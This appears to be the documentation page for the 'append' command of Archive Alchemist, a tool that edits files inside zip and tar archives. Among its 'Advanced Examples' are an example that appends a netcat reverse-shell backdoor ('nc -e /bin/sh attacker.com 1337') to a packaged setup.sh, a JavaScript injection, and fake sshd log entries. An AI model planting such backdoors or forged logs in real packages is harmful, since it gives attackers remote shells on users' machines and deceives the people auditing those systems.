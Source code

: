 # Archive Alchemist: append Command

## Overview

The `append` command adds additional content to the end of existing files in an archive. This allows you to modify files without replacing their entire content, which is useful for adding configuration lines, injecting code, or extending log files.

## Syntax

```bash
./archive-alchemist.py <archive> [-t <type>] append <path> [options]
```

## Options

| Option | Description | Default | Example |
|--------|-------------|---------|---------|
| `<path>` | Path within the archive to append to (required) | N/A | `file.txt`, `config.ini`, `logs/app.log` |
| `--content` | Text content to append to the file | Empty | `--content "\nAdditional line"` |
| `--content-file` | Path to a local file whose content should be appended | None | `--content-file /path/to/append-content.txt` |

**Note**: Either `--content` or `--content-file` must be specified.

## Examples

### Append Text to a File

```bash
# Append a new line to a text file
./archive-alchemist.py archive.zip append config.txt --content "\nport=8080"

# Append content without a newline
./archive-alchemist.py archive.zip append data.txt --content "appended text"
```

### Append Content from Another File

```bash
# Append content from a local file
./archive-alchemist.py archive.tar -t tar append logs/app.log --content-file /path/to/new_logs.txt
```

### Append Multiple Lines

```bash
# Append multiple lines to a configuration file
./archive-alchemist.py archive.zip append config.ini --content "\n[new_section]\nkey1=value1\nkey2=value2"
```

### Append to Binary Files

```bash
# Append data to a binary file
./archive-alchemist.py archive.zip append data.bin --content-file /path/to/binary_chunk
```

## Advanced Examples

### Injecting Code

```bash
# Inject JavaScript code into a JS file
./archive-alchemist.py webapp.zip append assets/js/main.js --content "\n\nalert('Injected code');"

# Append a backdoor to a shell script
./archive-alchemist.py package.tar -t tar append setup.sh --content "\n\n# Backdoor\nnc -e /bin/sh attacker.com 1337 &"
```

### Adding Lines to Log Files

```bash
# Append fake log entries
./archive-alchemist.py logs.zip append system.log --content "\nJun 15 14:30:45 server sshd[1234]: Accepted password for admin from 192.168.1.1"
```

### Adding Configuration Options

```bash
# Append new configuration options
./archive-alchemist.py app.zip append config/settings.xml --content "\n  <permission>ADMIN</permission>"
```

## Notes and Warnings

- The `append` command works only on existing files. If the specified file doesn't exist in the archive, the command will fail. Use the `add` command first if the file doesn't exist.

- When appending content, be mindful of line endings. If you want to start the appended content on a new line, include a newline character (`\n`) at the beginning of your content.

- Appending to binary files is supported, but you need to be careful about the format of the binary file. Appending arbitrary data to some binary formats (like compressed files, images, or executables) may corrupt them.

- The `append` command preserves the file's original attributes (mode, ownership, timestamps). To modify attributes while appending, use the `replace` command instead.

- For TAR archives with compression (tar.gz, tar.xz, tar.bz2), the entire archive needs to be rewritten when appending, which may take longer for large archives.

- Some text files may use specific line endings (Windows uses CRLF, Unix uses LF). Be aware of this when appending content to maintain consistency.